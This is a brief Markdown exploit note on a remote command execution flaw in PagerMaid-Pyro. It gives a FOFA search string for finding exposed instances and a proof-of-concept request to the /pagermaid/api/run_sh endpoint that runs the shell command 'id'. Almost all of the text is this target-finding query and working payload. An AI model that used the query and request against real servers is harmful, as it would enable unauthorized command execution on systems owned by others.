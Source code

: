 FOFA

```
"PagerMaid-Pyro"
```

POC

```
/pagermaid/api/run_sh?cmd=id
```

![图片](PagerMaid-Pyro%20run_sh-rce%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640.png)